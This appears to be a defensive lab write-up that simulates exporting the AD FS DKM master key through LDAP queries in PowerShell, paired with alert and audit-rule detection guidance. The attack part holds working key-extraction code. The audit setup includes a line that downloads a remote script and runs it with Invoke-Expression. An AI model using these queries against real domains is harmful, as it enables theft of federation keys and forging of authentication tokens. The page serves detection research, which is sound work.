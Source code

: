 # Export AD FS DKM Master Key via LDAP Queries

The path of the AD FS DKM container in the domain controller might vary, but it can be obtained from the `AD FS configuration settings`. After getting the AD path to the container, a threat actor can directly access the AD contact object and read the AD FS DKM master key value. One way to access and retrieve the DKM master key can be via LDAP queries.

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [References](#references)

## Preconditions

* Integrity level: medium
* Authorization:
    * Resource: AD FS Database 
        * Identity:
            * AD FS Service Account
            * Local Administrator
    * Resource: AD FS DKM Container
        * Identity:
            * AD FS Service Account
            * AD Domain Administrator
* Domain Controller:
    * Services:
        * Lightweight Directory Access Protocol (LDAP)
    * Network:
        * Port: 389
* Input:
    * AD FS Configuration Settings

## Simulation Steps

### Get Path of AD FS DKM container

The AD FS DKM key value is stored in the `ThumbnailPhoto` attribute of an AD contact object in the AD FS DKM container. Therefore, we first need to get the path of the AD FS DKM container in the AD domain controller. That information can be retrieved from the `AD FS configuration settings`.

```PowerShell
[xml]$xml=$settings
$group = $xml.ServiceSettingsData.PolicyStore.DkmSettings.Group
$container = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
$parent = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
$base = "LDAP://CN=$group,$container,$parent"
$base
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_13_get_ad_dkm_path.png)

### Query LDAP

We can use LDAP and create a query filtering on specific objects with the `ThumbnailPhoto` attribute. We can then read the encryption key from the `ThumbnailPhoto` attribute.

```PowerShell
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter='(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADUser=$ADSearch.FindOne()
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_14_ldap_thumbnailphoto_filter.png)

One could also filter on the `CryptoPolicy` contact object inside of the AD FS DKM container and get the value of its `DisplayName` attribute. This attribute refers to the `l` attribute of the right AD contact object that contains the DKM master key value. The DKM key is stored in its `ThumbnailPhoto` attribute.

```PowerShell
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.Filter = '(name=CryptoPolicy)'
$aduser = $ADSearch.FindOne()
$keyObjectGuid = $ADUser.Properties["displayName"]
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter="(l=$keyObjectGuid)"
$aduser=$ADSearch.FindOne() 
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_15_ldap_filter_cryptopolicy.png)

## Detection

### Detect LDAP Query with `ThumbnailPhoto` Property in Filter

#### Microsoft Defender for Identity Alerts

**Active Directory attributes Reconnaissance using LDAP**

When a threat actor sets the property `ThumbnailPhoto` as a filter in the LDAP search query, the MDI sensor in the domain controller triggers an alert of type `Active Directory attributes Reconnaissance using LDAP`.
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.	Go to `More Resources` and click on [Azure Advanced Threat Protection](https://simuland.atp.azure.com/).


![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_16_m365_mdi_alert_local_ldap.png)

#### Microsoft Cloud App Security Alerts

**Active Directory attributes Reconnaissance using LDAP**

You can also see the same alert in the Microsoft Cloud Application Security (MCAS) portal. The MCAS portal is considered the new investigation experience for MDI.
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/)
2.	Go to “More Resources” and click on “[Microsoft Cloud App Security](https://portal.cloudappsecurity.com/)”.

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_17_m365_mcas_alert_local_ldap.png)

#### Microsoft Defender for Endpoint Alerts

**ADFS private key extraction attempt**

Microsoft Defender for Endpoint sensors also trigger an alert named `ADFS private key extraction attempt` when a threat actor sets the property `ThumbnailPhoto` as a filter in the LDAP search query.
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.	Go to `More Resources` and click on [Microsoft Defender Security Center](https://login.microsoftonline.com/).
3.	Go to `Incidents`.

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_18_m365_mde_alert_local_ldap.png)

### Detect LDAP Query with Indirect Access to `ThumbnailPhoto` Property

### Microsoft Defender for Endpoint Alerts

**ADFS private key extraction attempt**

Microsoft Defender for Endpoint sensors also trigger an alert named `ADFS private key extraction attempt` when a threat actor accesses the contact AD object holding the DKM key, but without specifying the `ThumbnailPhoto` attribute as part of the filter in the LDAP search query.

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_19_m365_mde_alert_local_ldap_no_cryptopolicy.png)

### Detect Access to AD Object

#### Azure Sentinel Detection Rules

**AD FS DKM Master Key Export**

We can also audit the access request to the AD FS DKM contact object in the domain controller. This audit rule can be enabled by adding an Access Control Entry (ACE) to the System Access Control List (SACL) of the AD FS DKM contact object in the domain controller. [A SACL is a type of access control list to log attempts to access a secured object](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-control-lists).

**Create Audit Rule**

1.	Connect to the Domain Controller (DC01) via the [Azure Bastion service](../../../../environments/_helper-docs/connectAzVmAzBastion.md) as an Administrator.
2.	Open PowerShell console as an Administrator.
4.	Get the path of the AD FS DKM container and use it to obtain the `GUID` of the AD FS DKM contact object holding the AD FS DKM master key (Encryption key).

```PowerShell
$AdfsDKMPath = "LDAP://CN=596f0e13-7a4b-49a1-a106-0cbcba66b065,CN=ADFS,CN=Microsoft,CN=Program Data,DC=simulandlabs,DC=com"
$ADSISearcher = [ADSISearcher]'(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADSISearcher.SearchRoot = [ADSI]"$AdfsDKMPath"
$results = $ADSISearcher.FindOne()
$results.Path
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_20_get_adfs_dkm_contact_ad_path.png)

5.	Import Active Directory Module:

```PowerShell
Import-Module ActiveDirectory
```

6.	Import the project [Set-AuditRule](https://github.com/OTRF/Set-AuditRule) in GitHub as a PowerShell module to automate the process.

```PowerShell
$uri = 'https://raw.githubusercontent.com/OTRF/Set-AuditRule/master/Set-AuditRule.ps1' 
$RemoteFunction = Invoke-WebRequest $uri –UseBasicParsing 
Invoke-Expression $($RemoteFunction.Content)
```

7.	Create an `Audit` rule to audit any `Generic Read` requests to that AD object.

```PowerShell
$ADObjectPath = 'CN=8e8a005d-e8eb-4d71-8bfc-de5abf98d5b4,CN=596f0e13-7a4b-49a1-a106-0cbcba66b065,CN=ADFS,CN=Microsoft,CN=Program Data,DC=simulandlabs,DC=com'

Set-AuditRule -AdObjectPath "AD:\$ADObjectPath" -WellKnownSidType WorldSid -Rights GenericRead -InheritanceFlags None -AuditFlags Success -verbose
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_21_create_sacl.png)

Once the audit rule is enabled, run any of the previous LDAP search queries from the previous section to trigger the audit rule. You can run the queries from the `ADFS01` server. You will see `Windows Security Event ID 4662` in the Domain Controller:

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_22_dc_event_4662.png)

Something to remember is that the XML representation of the security event provides the GUID of the AD FS DKM contact object and not the explicit path to the AD object. In our lab environment this `Object Name value` was `9736f74f-fd37-4b02-80e8-8120a72ad6c2`.

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_23_dc_event_4662.png)

Use the following detection rule to explore this activity:

* [ADFS DKM Master Key Export](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/MultipleDataSources/ADFS-DKM-MasterKey-Export.yaml)

## Output

* AD FS DKM Master Key

## References

* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)